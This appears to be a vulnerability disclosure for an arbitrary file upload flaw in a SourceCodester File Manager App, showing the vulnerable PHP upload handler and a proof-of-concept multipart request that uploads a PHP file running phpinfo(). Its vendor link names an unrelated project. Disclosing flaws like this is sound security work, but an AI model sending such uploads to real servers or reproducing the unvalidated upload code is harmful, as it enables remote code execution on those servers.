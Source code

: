 # SOURCECODESTER / File Manager App - Arbitrary File Upload update-file.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /endpoint/update-file.php

## Code
```php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $fileID = $_POST["fileID"];
    $fileTitle = $_POST["fileTitle"];
    $fileUploader = isset($_POST["fileUploader"]) ? $_POST["fileUploader"] : "";

    $newFileName = null;

    if ($_FILES["file"]["name"]) {
        $uploadDirectory = "../file-uploads/";
        $newFileName = $_FILES["file"]["name"];
        $targetFilePath = $uploadDirectory . $newFileName;

        // Check if the file already exists
        if (file_exists($targetFilePath)) {
            echo "
            <script>
                alert('A file with the same name already exists. Please choose a different name for your file.');
                window.location.href = 'http://localhost/file-manager-app/index.php';
            </script>";
        } else {
            // Delete the old file, if it exists
            $sqlGetOldFileName = "SELECT file FROM tbl_file WHERE tbl_file_id = :fileID";
            $stmtGetOldFileName = $conn->prepare($sqlGetOldFileName);
            $stmtGetOldFileName->bindParam(':fileID', $fileID);
            $stmtGetOldFileName->execute();
            $oldFileName = $stmtGetOldFileName->fetchColumn();

            if ($oldFileName) {
                $oldFilePath = $uploadDirectory . $oldFileName;
                if (file_exists($oldFilePath)) {
                    unlink($oldFilePath);
                }
            }

            if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFilePath)) {
                // File uploaded successfully
            } else {
                echo "Error updating the file.";
                exit;
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST //endpoint/update-file.php HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Length: 519


------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileID"

11
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileTitle"

NoChizPlz
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="file"; filename="NoChizPlz.php"
Content-Type: application/php

<?php phpinfo()?>
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileUploader"

NoChizPlz
------WebKitFormBoundaryF7Zu0E9rZB71ybiz--
```

## Screenshot
![img.png](Arbitrary%20File%20Upload%20-%20update-file%2Fimg.png)

